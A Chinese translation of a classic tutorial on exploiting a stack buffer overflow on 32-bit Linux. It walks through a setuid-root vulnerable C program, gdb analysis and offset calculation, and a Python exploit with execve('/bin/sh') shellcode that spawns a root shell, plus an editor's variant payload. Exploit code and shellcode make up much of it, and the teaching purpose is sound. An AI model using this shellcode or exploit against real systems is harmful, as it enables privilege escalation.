

CSysSec注： 本系列文章译自安全自由工作者Sploitfun的漏洞利用系列博客，从经典栈缓冲区漏洞利用堆漏洞利用，循序渐进，是初学者不可多得的好材料，本系列所有文章涉及的源码可以在这里找到。CSysSec计划在原基础上不断添加相关漏洞利用技术以及相应的Mitigation方法，欢迎推荐或自荐文章。  
转载本文请务必注明，文章出处：《[Linux(X86)漏洞利用系列-经典栈缓冲区溢出](http://www.csyssec.org/20161230/stackbufferflow/)》  

VM Setup: Ubuntu 12.04 (x86)  

虽然你能在网上找到很多缓冲区溢出漏洞利用系列教程，但本文肯定是其中最最简单的一篇。尽管内容与其他文章多有重复，并且同类文章已经有了很多，我仍然愿意出一篇独家教程，因为这篇博文将是我后续发布的众多文章的阅读前提。  

## 0X01 什么是缓冲区溢出（Buffer Overflow）  

将源缓冲区复制到目标缓冲区时，以下情况可能导致缓冲区溢出的情况发生：  

源字符串长度大于目标字符串长度  
没有执行缓冲区大小检查  
缓冲区溢出分两类：  

栈缓冲区溢出——此时目标缓冲区存放于栈中  
堆缓冲区溢出——此时目标缓冲区存放于堆中  
这篇文章里，我只讨论栈缓冲区溢出问题。堆缓冲区溢出请参见Linux (x86) 漏洞利用教程系列中的第三部分。  

缓冲区溢出漏洞会导致任意代码执行的发生。  

## 0X02 什么是任意代码执行（arbitrary code execution）

任意代码执行允许攻击者执行代码来获得系统控制权。获得系统控制权的方法有很多，比如触发一个root shell、添加一个新用户、建立一个网络端口等等。  

听起来挺有趣的吧？话不多说，来看一则典型漏洞代码吧！  

漏洞代码：  

``` c
//vuln.c
#include <stdio.h>
#include <string.h>
int main(int argc, char* argv[]) {
        /* [1] */ char buf[256];
        /* [2] */ strcpy(buf,argv[1]);
        /* [3] */ printf("Input:%s\n",buf);
        return 0;
}
```
编译命令：

``` bash
#echo 0 > /proc/sys/kernel/randomize_va_space
$gcc -g -fno-stack-protector -z execstack -o vuln vuln.c
$sudo chown root vuln
$sudo chgrp root vuln
$sudo chmod +s vuln
``` 
上述漏洞程序的第[2]行显示，该程序中存在缓冲区溢出漏洞。由于缓冲区内容是用户提供的输入值，因此这个缓冲区溢出漏洞很可能导致系统执行任意代码。  

注：本系列所有文章中第[N]行代码指的的代码中显示`/*[N]*/`的位置。  

## 0X03 如何实现任意代码执行是如何实现的

任意代码执行是通过“返回地址覆盖(**Return Address Overwrite**)”技术实现的。这种方法帮助攻击者覆盖掉存储在栈内的返回地址，通过这种覆盖，任意代码执行得以实现。  

为了让大家更好地理解漏洞利用代码，我们在对它做进一步的分析之前，先来反汇编并画出漏洞代码的堆栈布局图吧！  

反汇编：

```
(gdb) disassemble main
Dump of assembler code for function main:
   //Function Prologue
   0x08048414 <+0>:	push   %ebp                      //backup caller's ebp
   0x08048415 <+1>:	mov    %esp,%ebp                 //set callee's ebp to esp
   0x08048417 <+3>:	and    $0xfffffff0,%esp          //stack alignment
   0x0804841a <+6>:	sub    $0x110,%esp               //stack space for local variables
   0x08048420 <+12>:	mov    0xc(%ebp),%eax            //eax = argv
   0x08048423 <+15>:	add    $0x4,%eax                 //eax = &argv[1]
   0x08048426 <+18>:	mov    (%eax),%eax               //eax = argv[1]
   0x08048428 <+20>:	mov    %eax,0x4(%esp)            //strcpy arg2 
   0x0804842c <+24>:	lea    0x10(%esp),%eax           //eax = 'buf' 
   0x08048430 <+28>:	mov    %eax,(%esp)               //strcpy arg1
   0x08048433 <+31>:	call   0x8048330 <strcpy@plt>    //call strcpy
   0x08048438 <+36>:	mov    $0x8048530,%eax           //eax = format str "Input:%s\n"
   0x0804843d <+41>:	lea    0x10(%esp),%edx           //edx = buf
   0x08048441 <+45>:	mov    %edx,0x4(%esp)            //printf arg2
   0x08048445 <+49>:	mov    %eax,(%esp)               //printf arg1
   0x08048448 <+52>:	call   0x8048320 <printf@plt>    //call printf
   0x0804844d <+57>:	mov    $0x0,%eax                 //return value 0
   //Function Epilogue
   0x08048452 <+62>:	leave                            //mov ebp, esp; pop ebp; 
   0x08048453 <+63>:	ret                              //return
End of assembler dump.
(gdb)
```
堆栈布局：  
  


根据已有知识，用户输入值大小超过256时会溢出目标缓冲区，并且覆盖存储于栈中的返回地址。让我们来通过发送一串“A”的方法进行测试。  

测试第一步： 是否会覆盖返回地址？  

``` 
$ gdb -q vuln
Reading symbols from /home/sploitfun/lsploits/new/csof/vuln...done.
(gdb) r `python -c 'print "A"*300'`
Starting program: /home/sploitfun/lsploits/new/csof/vuln `python -c 'print "A"*300'`
Input:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) p/x $eip
$1 = 0x41414141
(gdb)
```
上述输出结果显示，EIP被“AAAAA”覆盖了，这就意味着返回地址被覆盖是有可能的!!  

测试第二步：来自目标缓冲区的偏移量是什么？  

现在我们来找找目标缓冲区‘buf’中返回地址的偏移处于什么位置。  
之前我们已经反汇编并画了main()的堆栈布局，那么现在就试着找出代码的偏移位置信息吧！由堆栈布局可以看出，返回地址偏移位于目标缓冲区buf的(0x10c)处。(0x10c)计算方式如下  

0x10c = 0x100 + 0x8 + 0x4  
其中：  

0X100 是‘buf’大小  
0x8 是对齐空间  
0x4 是调用者的EBP  
这样一来，用户输入“A” 268 + “B” 4中，一串“A”覆盖‘buf’、对齐空间和调用者的EBP，“BBBB”覆盖返回地址。  

```
$ gdb -q vuln
Reading symbols from /home/sploitfun/lsploits/new/csof/vuln...done.
(gdb) r `python -c 'print "A"*268 + "B"*4'`
Starting program: /home/sploitfun/lsploits/new/csof/vuln `python -c 'print "A"*268 + "B"*4'`
Input:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) p/x $eip
$1 = 0x42424242
(gdb)
```
上述输出结果表明攻击者已经获得返回地址的控制权。位于栈 (0xbffff1fc)的返回地址已经被“BBBB”覆盖了。有了这些信息，我们就可以写出能实现任意代码执行的漏洞利用代码了。  

漏洞利用代码：  

``` python
#exp.py 
#!/usr/bin/env python
import struct
from subprocess import call
#Stack address where shellcode is copied.
ret_addr = 0xbffff1d0       
              
#Spawn a shell
#execve(/bin/sh)
scode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
#endianess convertion
def conv(num):
 return struct.pack("<I",num)
buf = "A" * 268
buf += conv(ret_addr)
buf += "\x90" * 100
buf += scode
print "Calling vulnerable program"
call(["./vuln", buf])
```
执行上述漏洞利用程序就可以获取root shell，如下所示：  

```  bash
$ python exp.py 
Calling vulnerable program
Input:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��������������������������������������������������������������������������������������������������������1�Ph//shh/bin��P��S���
# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
```
注意：为了得到这个root shell，我们舍弃了很多exploit的mitigation方法。其实在整个系列的第一部分，我都特意没用这些exploit的mitigation方法，因为level 1的目标，仅止于普及漏洞知识。如果你真的想学到有意思的知识，就去看Linux (x86)漏洞利用教程系列的第二部分吧！到时候我会教你们如何绕过exploit的mitigation方法。  

## 0x04 编者注
按上面poc 没有验证成功，不过思路是一致的，可以gdb在没 run 之前disassemble main，设置一下第一行汇编的断点，设程序一开始时 esp 是 0xbffffb8c，那么 buf 的结束地址是 0xbffffb80，开辟buf 结束后 esp 是0xbffffa70（sub 0x110），但实际 buf 的起始地址是0xbffffa80（sub 0x100），那么我们总共需要覆盖的范围是 256 + 16(8字节对齐+存放bsp+存放返回地址） = 272 字节，假设我们把 0xbffffb8c 处的返回地址覆盖为0xbffffa80，则可以设置 a80 开始是空指令，然后是 shellcode，即 187 nop + 45 shellcode + 4 地址* 10 = 272 字节。  

```
(gdb) r `python -c 'print "\x90" * 187 + "\x31\xc0\x83\xec\x01\x88\x04\x24\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x83\xec\x01\xc6\x04\x24\x2f\x89\xe6\x50\x56\xb0\x0b\x89\xf3\x89\xe1\x31\xd2\xcd\x80\xb0\x01\x31\xdb\xcd\x80" + "\x80\xfa\xff\xbf"*10'`

... 不断 si
(gdb) finish
Run till exit from #0  0x080482f6 in ?? ()
main (argc=0, argv=0xbffffc24) at vuln.c:9
9	    return 0;
(gdb) x/x 0xbffffa80
0xbffffa80:	0x90909090
(gdb) x/x 0xbffffb8c
0xbffffb8c:	0xbffffa80

process 20955 is executing new program: /bin/bash
```
注意：测试时需要把 /proc/sys/kernel/randomize_va_space 置为0，才能关闭地址随机化。